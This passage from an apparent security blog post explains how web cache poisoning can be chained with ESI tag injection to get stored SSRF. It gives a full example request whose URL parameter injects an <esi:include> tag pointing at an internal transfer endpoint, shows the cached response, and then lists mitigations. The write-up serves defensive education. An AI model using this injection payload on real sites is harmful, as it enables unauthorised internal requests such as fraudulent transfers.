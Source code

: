 This attack, combined with the cache poisoning one, could lead to potential **stored SSRF** and **XSS attacks**. Since the ESI parser is not able to distinguish between legitimate ESI tags provided by the upstream server and malicious ones injected in the HTTP response, an attacker could abuse a Cache Poisoning flaw in order to **store a malicious <esi>** **tag inside** a dynamic-generated response page.  
  
Let’s consider, for instance, the _SSRF_ scenario:  
The following request injects an _<esi>_  tag inside the response through a URL parameter usafely reflected in the response page and the “client\_id” header used as cache-key. 

Request: 

|   GET /home/contact?client\_id=143&country\_id=<esi:include%20src="http://10.0.0.7/transfer?recipient=12345&amount=54321"/> HTTP/1.1  Host: vulnerable-host.com  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_64; rv:81.0) Gecko/20100101 Firefox/81.0  Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3  Accept-Encoding: gzip, deflate   |
| --- |

  
Response:   

|   HTTP/1.1 200 OK  Content-Type: text/html  Connection: close  X-Cache: MISS  Content-Length: 3114      \[ . . . \]  <esi:include src="http://10.0.0.7/transfer?recipient=12345&amount=54321"/>  \[ . . . \]   |
| --- |

  
If a malicious user tricks a victim user to visit the URL with the attacker’s cache-key:

- _“vulnerable-host.com/home/contact?client\_id=143”_

the application sends the cached response page with the injected _<esi>_ tag to the surrogate. It detects the tag and the “_Stored Server-Side Request Forgery_” attack is successfully exploited!  
The diagram below shows how the parts interact each other:

  

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgKq_4iN5O_TZW0DeVTjbm7RSATWqxyswNBjiXHFu2jVZdKeVk9u0CKbaSVWBdtsQB6dgFPsa8h_z_98itLZZ20vfmCStKCHq-vaRYoA9i8JqXya2fQDJH20KkJOfIpE9yTvkxQwEuhyphenhyphenpU/w640-h384/ssrf_blog.jpg)

  

### Conclusions

It is recommended to pay close attention when **new caching rules** are added, since extending pre-existing configurations is a typical **main source** for cache flaws.  
  
For this reason, it is strongly discouraged the use of _pre-made_ _scripts_ for an homogeneous and immediate cache-control setting over all endpoints.  
  
Regarding **Web Cache Deception** mitigation, all the gateway layers should have a consistent configuration in order to prevent a misconfiguration among them and should cache web pages based on their content type.  
  
On the other hand, in order to decrease the possibility of being vulnerable against _Web Cache Poisoning_ attacks, it is recommended to **validate** and **escape** all the users-controlled inputs, including the request headers.  
  
In particular, it is important to check all the inputs which are **reflected** in cacheable responses. Indeed, it is strongly recommended to **avoid caching web responses** which include user-provided inputs.  
  
Last but not least, as a best-practice, it is important to **stay up to date** with the last **security bulletin** related to your own _web components_ in-use. In order to become aware of new **security patches** or guides for a correct and secure infrastructure configuration!
